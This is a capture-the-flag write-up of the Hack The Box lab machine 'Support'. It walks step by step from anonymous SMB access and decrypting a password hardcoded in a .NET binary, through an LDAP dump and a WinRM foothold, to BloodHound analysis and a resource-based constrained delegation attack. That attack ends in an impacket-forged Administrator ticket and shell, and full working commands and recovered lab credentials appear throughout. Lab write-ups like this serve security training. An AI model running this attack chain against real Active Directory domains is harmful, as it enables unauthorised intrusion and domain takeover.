





# Support

## Summary

We scan the machine using `nmap` and find that SMB and LDAP are running. We are able to list SMB shares and download all the files from the `support-tools` share without providing credentials. One of the files downloaded is a ZIP file containing a .Net executable called `UserInfo.exe`. We decompile the program with [AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy) (which is a port of [ILSpy](https://github.com/icsharpcode/ILSpy) to Linux/MacOS) and find an encrypted password. The encryption is basic and the decryption logic is already present in the code, so the password is easy to decrypt. We continue looking at the code and find an LDAP connection is made through a user called `ldap` and the decrypted password.

Using [ldapsearch](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#manual-1), we dump the LDAP user data and find the password for the `support` user in its `info` field. We connect using [evil-winrm](https://github.com/Hackplayers/evil-winrm) and get the `user.txt` flag.

Now that we have a shell, we scan the machine using [SharpHound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html) and [BloodHound](https://github.com/BloodHoundAD/BloodHound). We figure out that the `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB` group has the `GenericAll` permission on `DC.SUPPORT.HTB` and our user, `support` is part of that group.

Searching for ways to exploit the `GenericAll` permission finds [Kerberos Resource-based Constrained Delegation: Computer Object Takeover](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution). Following the guide, we 1) create a fake computer object (no admin required) and 2) update the target computer object to enable the fake computer to impersonate and authenticate any domain user that can then access the target system. The second step is possible because we have the `WRITE` privilege (from `GenericAll`) on the target machine. Instead of following the guide to create the ticket (it uses a Window-only tool), we use [impacket](https://github.com/SecureAuthCorp/impacket)'s [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py). This gives us a Kerberos ticket with the ability to impersonate the `Administrator` user. Finally, we use [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) with the ticket to get an interactive shell on the box as `Administrator` and get the `root.txt` flag.

## Enumeration

### Nmap

First, let's scan for open ports using `nmap`. We can quickly scan for open ports and store them in a variable: `ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.129.227.255 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`. Then, we can scan those specific ports in depth by running `nmap`'s built-in scripts: `nmap -Pn -p$ports -sC -sV 10.129.227.255`. We need to use `-Pn` with this box since it is blocking `nmap`'s ping probes.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-01 22:42:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
55397/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-08-01T22:43:23
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

### SMB (Ports `139` & `445`)

Ports `139` and `445` are open so it looks like SMB is running.

We can try listing the shares (`-L`) without specifying a password (`-N`).

```
$ smbclient -N -L \\\\10.129.227.255\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.227.255 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

`support-tools` is interesting. Let's try to view the files from that share using an interactive shell:

```
$ smbclient -N \\\\10.129.227.255\\support-tools
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

                4026367 blocks of size 4096. 883139 blocks available
```

It's a directory of different programs. We can download all these files to the current directory by running the following commands from [this HackTricks page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#download-files):

```
smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \7-ZipPortable_21.07.paf.exe of size 2880728 as 7-ZipPortable_21.07.paf.exe (3565.5 KiloBytes/sec) (average 3565.5 KiloBytes/sec)
getting file \npp.8.4.1.portable.x64.zip of size 5439245 as npp.8.4.1.portable.x64.zip (4408.1 KiloBytes/sec) (average 4074.7 KiloBytes/sec)
getting file \putty.exe of size 1273576 as putty.exe (2477.5 KiloBytes/sec) (average 3753.5 KiloBytes/sec)
getting file \SysinternalsSuite.zip of size 48102161 as SysinternalsSuite.zip (2816.2 KiloBytes/sec) (average 2938.2 KiloBytes/sec)
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (909.4 KiloBytes/sec) (average 2907.2 KiloBytes/sec)
getting file \windirstat1_1_2_setup.exe of size 79171 as windirstat1_1_2_setup.exe (613.6 KiloBytes/sec) (average 2892.4 KiloBytes/sec)
getting file \WiresharkPortable64_3.6.5.paf.exe of size 44398000 as WiresharkPortable64_3.6.5.paf.exe (2326.0 KiloBytes/sec) (average 2616.3 KiloBytes/sec)
```

Alternatively, you can download one file by running `get UserInfo.exe.zip`.

### Decompiling `UserInfo.exe`

Everything except [UserInfo.exe.zip](UserInfo.exe.zip) looks like a normal program. When unzipping [UserInfo.exe.zip](UserInfo.exe.zip) we see the following files:

```
-rw-r--r-- 1 kali kali  99840 Mar  1 13:18 CommandLineParser.dll
-rw-r--r-- 1 kali kali  22144 Oct 22  2021 Microsoft.Bcl.AsyncInterfaces.dll
-rw-r--r-- 1 kali kali  47216 Oct 22  2021 Microsoft.Extensions.DependencyInjection.Abstractions.dll
-rw-r--r-- 1 kali kali  84608 Oct 22  2021 Microsoft.Extensions.DependencyInjection.dll
-rw-r--r-- 1 kali kali  64112 Oct 22  2021 Microsoft.Extensions.Logging.Abstractions.dll
-rw-r--r-- 1 kali kali  20856 Feb 19  2020 System.Buffers.dll
-rw-r--r-- 1 kali kali 141184 Feb 19  2020 System.Memory.dll
-rw-r--r-- 1 kali kali 115856 May 15  2018 System.Numerics.Vectors.dll
-rw-r--r-- 1 kali kali  18024 Oct 22  2021 System.Runtime.CompilerServices.Unsafe.dll
-rw-r--r-- 1 kali kali  25984 Feb 19  2020 System.Threading.Tasks.Extensions.dll
-rwxr-xr-x 1 kali kali  12288 May 27 13:51 UserInfo.exe
-rw-r--r-- 1 kali kali    563 May 27 12:59 UserInfo.exe.config
```

Running `file UserInfo.exe` tells us that this is a `PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows`. I am familiar with reversing using [Ghidra](https://ghidra-sre.org/), but it is not the right tool to reverse .Net binaries. Searching for ".net debugger" finds [dnSpy](https://github.com/dnSpy/dnSpy), but the repository is archived and hasn't been updated for about 2 years. I also find [ILSpy](https://github.com/icsharpcode/ILSpy) which seems to be more regularly updated. [This article from ndepend](https://blog.ndepend.com/in-the-jungle-of-net-decompilers/) compares the available decompilers. I'm going to use ILSpy since the article calls it "the de-facto .NET Decompiler." ILSpy only supports Windows, but it has been ported to Linux in the form of [AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy). Download the latest release from [the releases page](https://github.com/icsharpcode/AvaloniaILSpy/releases) and run it with `./ILSpy`.

We open the `UserInfo.exe` binary in ILSpy and quite quickly we find the `UserInfo.Services.Protected` class, which contains and encrypted password and a method to decrypt it already written for us:



`UserInfo.Services.Protected` class (in text form):

```c#
using System;
using System.Text;

internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

Let's quickly write this in Python (since that is faster than getting C# code running):

```python
import base64
enc_password = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
ken_len = len(key)

password_list = base64.b64decode(enc_password)
password = [chr(pass_char ^ key[idx % ken_len] ^ 223) for idx, pass_char in enumerate(password_list)]

print("".join(password))
```

This prints out `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`.

Additionally, in ILSpy, we see a class called `UserInfo.Services.LdapQuery`.



After looking at it, we see that the constructor contains a username (`ldap`) and uses the decoded password to connect to LDAP on the machine.

```c#
public LdapQuery()
{
    //IL_0018: Unknown result type (might be due to invalid IL or missing references)
    //IL_0022: Expected O, but got Unknown
    //IL_0035: Unknown result type (might be due to invalid IL or missing references)
    //IL_003f: Expected O, but got Unknown
    string password = Protected.getPassword();
    entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    entry.set_AuthenticationType((AuthenticationTypes)1);
    ds = new DirectorySearcher(entry);
}
```

### LDAP

From the `nmap` scan and the `UserInfo.exe`, we see that LDAP is present. LDAP runs on ports 389, 636, 3268, and 3269. According to [Wikipedia](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol), "The Lightweight Directory Access Protocol is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol network."

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#manual-1), we can make sure our credentials work by trying to extract everything from the LDAP server by running `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"`. Here are what the options in this command mean:

```
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```

For our situation, this command is `ldapsearch -x -H ldap://10.129.227.255 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`. This outputs 5824 lines of output. So, we captured it all into [ldap_dump.txt](ldap_dump.txt).

We can get only information about users by adding `CN=Users` to the command like so (command from [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#manual-1)): `ldapsearch -x -H ldap://10.129.227.255 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"`. Tip: Pipe the output of that command to `xclip -selection clipboard` to copy it to your clipboard automatically. Output is located at [ldap_users.txt](ldap_users.txt). After looking through this file, we see the `support` user has the `info` field set to `Ironside47pleasure40Watchful`, which is weird.

## Foothold

The piece of information we found is the `support` user's password. [WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm) runs on port `5985`, which is open. We can connect using [evil-winrm](https://github.com/Hackplayers/evil-winrm) by running `evil-winrm -u support -p Ironside47pleasure40Watchful -i 10.129.227.255`, which works.

Now, just run `cat C:\Users\support\Desktop\user.txt` to get the `user.txt` flag.

## Privilege Escalation

Let's scan the machine using [BloodHound](https://github.com/BloodHoundAD/BloodHound): "BloodHound is a single page Javascript web application, built on top of Linkurious, compiled with Electron, with a Neo4j database fed by a C# data collector. BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify."

BloodHound only analyzes data though. We need to use [SharpHound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html) ([download](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)) to collect data. There are other data collectors but SharpHound is the only officially support collector.

Upload SharpHound.exe and run it:

```
*Evil-WinRM* PS C:\Users\support\Documents> .\SharpHound.exe
2022-08-01T16:59:37.8577528-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-08-01T16:59:37.8577528-07:00|INFORMATION|Initializing SharpHound at 4:59 PM on 8/1/2022
2022-08-01T16:59:38.1702551-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-08-01T16:59:38.3421370-07:00|INFORMATION|Beginning LDAP search for support.htb
2022-08-01T16:59:38.4046350-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-08-01T16:59:38.4046350-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-08-01T17:00:08.4455283-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-08-01T17:00:20.7485323-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2022-08-01T17:00:20.7797405-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2022-08-01T17:00:20.9047428-07:00|INFORMATION|Status: 109 objects finished (+109 2.595238)/s -- Using 42 MB RAM
2022-08-01T17:00:20.9047428-07:00|INFORMATION|Enumeration finished in 00:00:42.5649012
2022-08-01T17:00:21.0141259-07:00|INFORMATION|SharpHound Enumeration Completed at 5:00 PM on 8/1/2022! Happy Graphing!
```

To get BloodHound setup, you can [follow this guide](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux). Then, just download the zip file ([20220801170020_BloodHound.zip](20220801170020_BloodHound.zip)) from the machine and drag and drop it onto the BloodHound interface. Then, on the Analysis tab, choose "Shortest Paths to High Value Targets":



Right click the `DC.SUPPORT.HTB` machine and choose "Shortest Paths to Here":



The `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB` group has the `GenericAll` permission on `DC.SUPPORT.HTB`. If we right click that group, we will see that the `support` user we have access to is a member of the group. So, we have the `GenericAll` permission.



Searching for "genericall active directory" finds [this page](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-genericwrite-write-on-computer), which explains that "if you have GenericAll/GenericWrite/Write on a Computer object, you can pull [Kerberos Resource-based Constrained Delegation: Computer Object Takeover](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) off.

We need the following PowerShell modules to follow the guide: [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) ([GitHub repo](https://github.com/PowerShellMafia/PowerSploit)) and [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) ([GitHub repo](https://github.com/Kevin-Robertson/Powermad)). Download them and then upload them to the box using evil-winrm's `upload` command. Load them by running the following commands:

```powershell
import-module .\Powermad.ps1
import-module .\PowerView.ps1
```

The first step is to create a new computer object for our fake computer, `FAKE01`. This is the computer that will be trusted by our target computer `dc.support.htb` later on.

```powershell
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Output:

```
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added
```

Get the newly created computer SID with `Get-DomainComputer fake01`:

```
pwdlastset             : 8/1/2022 5:45:17 PM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5601
samaccountname         : FAKE01$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
accountexpires         : NEVER
countrycode            : 0
whenchanged            : 8/2/2022 12:45:17 AM
instancetype           : 4
usncreated             : 86213
objectguid             : e47a18ce-3de8-435a-9f5e-a8e65cf5addd
lastlogon              : 12/31/1600 4:00:00 PM
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=support,DC=htb
dscorepropagationdata  : 1/1/1601 12:00:00 AM
serviceprincipalname   : {RestrictedKrbHost/FAKE01, HOST/FAKE01, RestrictedKrbHost/FAKE01.support.htb, HOST/FAKE01.support.htb}
ms-ds-creatorsid       : {1, 5, 0, 0...}
badpwdcount            : 0
cn                     : FAKE01
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
whencreated            : 8/2/2022 12:45:17 AM
primarygroupid         : 515
iscriticalsystemobject : False
usnchanged             : 86215
dnshostname            : FAKE01.support.htb
```

The SID is `S-1-5-21-1677581083-3380853377-188903654-5601`.

Next, create a new raw security descriptor for the `FAKE01` computer principal:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5601)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

After that, apply the security descriptor bytes to the target `dc.support.htb` machine by running `Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose`:

```
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Extracted domain 'support.htb' from 'CN=DC,OU=Domain Controllers,DC=support,DC=htb'
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC,OU=Domain Controllers,DC=support,DC=htb)))
Verbose: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 27 219 253 99 129 186 131 201 230 112 66 11 225 21 0 0' for object 'DC$'
```

To get a Kerberos ticket, the guide uses [Rubeus](https://github.com/GhostPack/Rubeus), which only runs on Windows and seems difficult to set up. Searching for "impacket get kerberos ticket to impersonate user" finds [impacket](https://github.com/SecureAuthCorp/impacket)'s [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py):

```
$ getST.py support.htb/fake01:123456 -dc-ip 10.129.227.255 -impersonate Administrator -spn www/dc.support.htb
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Now we have the Kerberos ticket. Looking at the [tools available in impacket](https://www.secureauth.com/labs/open-source-tools/impacket/) shows "[wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py): A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy." It also [has an option](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L388) to use a Kerberos ticket through the `KRB5CCNAME` environment variable. It looks like [smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) is popular and would work as well.

So, let's run the following to get a shell:

```
export KRB5CCNAME=Administrator.ccache
wmiexec.py -k -no-pass support.htb/Administrator@dc.support.htb
```

Initially, I got the error `[-] [Errno Connection error (dc.support.htb:445)] [Errno -3] Temporary failure in name resolution`. So, I added `dc.support.htb` and `support.htb` to the `/etc/hosts` file. After that, the command worked!

```
$ wmiexec.py -k -no-pass support.htb/Administrator@dc.support.htb
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator

C:\>type C:\Users\Administrator\Desktop\root.txt
0b**ee
```
